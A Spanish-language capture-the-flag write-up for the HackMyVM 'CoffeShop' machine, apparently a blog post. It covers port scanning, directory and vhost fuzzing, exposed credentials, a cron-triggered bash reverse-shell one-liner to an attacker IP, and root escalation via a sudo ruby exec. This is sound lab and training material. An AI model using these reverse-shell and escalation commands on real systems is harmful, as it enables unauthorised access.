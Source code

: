 ```yaml
---
layout: post
title: HackMyVM - CoffeShop
author: c4rta
date: 2024-01-15
tags: [HackMyVM]
image: /assets/img/coffeshop/coffeeshop.png
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

 ```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **shop**

```ruby
gobuster dir -u http://192.168.1.84/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100
```

```ruby
/shop                 (Status: 301) [Size: 311] [--> http://192.168.1.84/shop/]
```

### Explorando el sitio web

En el sitio web principal nos encontramos el nombre de un dominio **midnight.coffee**, es posible que se este aplicando virtual hosting y lo tengamos que agregar al **/etc/host** para que resuelva

```bash
echo "<IP>     midnight.coffee" | tee -a /etc/hosts
```

Si regresamos el sitio web y entramos el recurso **/shop**, nos mostrara un encabezado con varias opciones, donde tendremos un login

![](/assets/img/coffeshop/2.png)

En este punto intente probar con SQLi, NoSQLi, Type Juggling pero nada de eso me funciono, asi que recurri a enumerar subdominios, recordemos que agregamos un dominio al /etc/hosts, por lo cual debemos de hacer el fuzzing con ese dominio, usaremos wfuzz en modo vhost y descubriremos **dev**

```ruby
wfuzz -u 'http://midnight.coffee' -H 'Host: FUZZ.midnight.coffee' -t 100 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hh 1690
```

```ruby
200        71 L     152 W      1738 Ch     "dev"
```

Tambien hay que agregarlo el /etc/hosts

```bash
echo "<IP>     dev.midnight.coffee" | tee -a /etc/hosts
```

Al entrar al sitio, podremos ver las credenciales del login

![](/assets/img/coffeshop/3.png)

![](/assets/img/coffeshop/4.png)

## Movimiento lateral: tuna -> shopadmin

### user.txt (via no intencionada)

Durante la enumeracion, pude encontrar que en el directorio /opt existe un archivo de ruby que ocuparemos mas adelante

```ruby
-rw-r--r--  1 root root   27 Jan  3 14:00 shop.rb
```
Tambien intente enumerar binarios SUID, permisos a nivel de sudoers y nada, explore un poco mas y encontre en el directorio home de **shopadmin** tiene permisos de ejecucion, por lo que podemos entrar en el pero no listar contenido

![](/assets/img/coffeshop/5.png)

Asi que se me ocurrio leer el archivo **user.txt** y si tengo suerte y existe tener la flag, y si funciono

![](/assets/img/coffeshop/6.png)

### user.txt (via intencionada)

Si mostramos el archivo **.viminfo** podemos ver que se crearon y/o editaron varias cosas, como el crontab y el archivo **/tmp/uwu.sh** 

![](/assets/img/coffeshop/7.png)

Si mostramos las tareas cron, tenemos una que se ejecuta como el usuario **shopadmin**

```ruby
* * * * * /bin/bash /home/shopadmin/execute.sh
```

Al ver su contenido, podemos ver que esta ejecutando cualquier archivo **.sh** del directorio **/tmp**, por lo cual podemos crear uno que nos envie una reverse shell, en mi caso usare el tipico one liner de bash

```bash
#!/usr/bin/env bash
bash -i >& /dev/tcp/<IP>/443 0>&1
```

Despues de 1 minuto, nos llegara una shell y ya tendremos la flag se user por la via intencionada

![](/assets/img/coffeshop/8.png)

## Escalada de privilegios

Si mostramos los permisos de nivel de sudoers, podemos ver que podemos ejecutar cualquier cosa con ruby y el archivo **shop.rb**

```ruby
User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

Al buscar en **GFTOBins** obtenemos que podemos hacernos root ejecutando **ruby -e 'exec "/bin/sh"'**, si lo probamos asi no funcionada, por lo que debemos de indicarle el archivo **/opt/shop.rb**

```ruby
sudo ruby -e 'exec "/bin/bash"'  /opt/shop.rb
```

Y ya seremos root

![](/assets/img/coffeshop/9.png)

Eso ha sido todo, gracias por leer ❤